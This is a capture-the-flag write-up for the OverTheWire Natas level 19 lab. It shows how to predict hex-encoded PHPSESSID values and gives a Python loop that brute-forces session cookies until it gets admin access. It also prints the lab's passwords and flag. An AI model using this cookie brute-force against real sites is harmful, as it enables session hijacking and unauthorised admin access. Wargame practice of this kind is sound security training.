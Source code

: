 # Natas19

*	user: `natas19`
*	pass: `4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs`
*	url: `http://natas19.natas.labs.overthewire.org`
*	flag: `eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF`

## Procedure

1.	Since values of PHPSESSID are not sequential, we have to try if it's
	possible to evaluate the randomness in order to predict values. To do that
	we need a significant number of generated PHPSESSID and the try to execute
	some statistics.

2.	Statistics are executed by Python script [natas19_stats.py](./scripts/nata19_stats.py). Run it

		$ python natas19_stats.py
		Just a simple analysis: 
		  PHPSESSIDs with 18 chars: 82.00%
		  PHPSESSIDs with 14 chars: 2.00%
		  PHPSESSIDs with 16 chars: 14.00%
		
		Chose length: 18
		
		With 300 captures
		  char at position  0 of PHPSESSID is '3' with accurancy 100.00%
		  char at position  1 of PHPSESSID is '1' with accurancy 20.00%
		  char at position  2 of PHPSESSID is '3' with accurancy 100.00%
		  char at position  3 of PHPSESSID is '2' with accurancy 14.00%
		  char at position  4 of PHPSESSID is '3' with accurancy 100.00%
		  char at position  5 of PHPSESSID is '3' with accurancy 13.00%
		  char at position  6 of PHPSESSID is '2' with accurancy 100.00%
		  char at position  7 of PHPSESSID is 'd' with accurancy 100.00%
		  char at position  8 of PHPSESSID is '6' with accurancy 100.00%
		  char at position  9 of PHPSESSID is '1' with accurancy 100.00%
		  char at position 10 of PHPSESSID is '6' with accurancy 100.00%
		  char at position 11 of PHPSESSID is '4' with accurancy 100.00%
		  char at position 12 of PHPSESSID is '6' with accurancy 100.00%
		  char at position 13 of PHPSESSID is 'd' with accurancy 100.00%
		  char at position 14 of PHPSESSID is '6' with accurancy 100.00%
		  char at position 15 of PHPSESSID is '9' with accurancy 100.00%
		  char at position 16 of PHPSESSID is '6' with accurancy 100.00%
		  char at position 17 of PHPSESSID is 'e' with accurancy 100.00%

	The output inform us that 82% of the captures is 18 chars length, so it's
	a good candidate for our flag. Then, by considering only IDs with 18 chars,
	we have an evaluation of the characters. According to the statistics, our
	PHPSESSID should be like this:

		3 [?] 3 [?] 3 [?] 2d61646d696e

3.	Now we can try with a brute-force because the range of possible solutions
	is reasonable (16x16x16).

		while x <= 0xf:
			while y <= 0xf:
				while z <= 0xf:
					phpsessid = (('3%s3%s3%s2d61646d696e') %
								 (hex(x)[2:], hex(y)[2:], hex(z)[2:]))
					cookies['PHPSESSID'] = phpsessid
					print 'Trying with: %s' % phpsessid
					r = requests.get(target, auth=auth, params=params, cookies=cookies)
					if "You are logged in as a regular user." not in r.text:
						print r.text
						sys.exit(0)
					z += 1
				y += 1
				z = 0x0
			x += 1
			y = 0x0
			z = 0x0

	Also in this case, Python is our best friend...

		$ python natas19.py
		Trying with: 3030302d61646d696e
		...
		Trying with: 33373f2d61646d696e
		Trying with: 3338302d61646d696e
		Trying with: 3338312d61646d696e
		<html>
		<head>
		<!-- This stuff in the header has nothing to do with the level -->
		<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
		<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
		<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
		<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
		<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
		<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
		<script>var wechallinfo = { "level": "natas19", "pass": "4IwIrekcuZlA9OsjOkoUtwU6lhokCPYs" };</script></head>
		<body>
		<h1>natas19</h1>
		<div id="content">
		<p>
		<b>
		This page uses mostly the same code as the previous level, but session IDs are no longer sequential...
		</b>
		</p>
		You are an admin. The credentials for the next level are:<br><pre>Username: natas20
		Password: eofm3Wsshxc5bwtVnEuGIlr7ivb9KABF</pre></div>
		</body>
		</html>
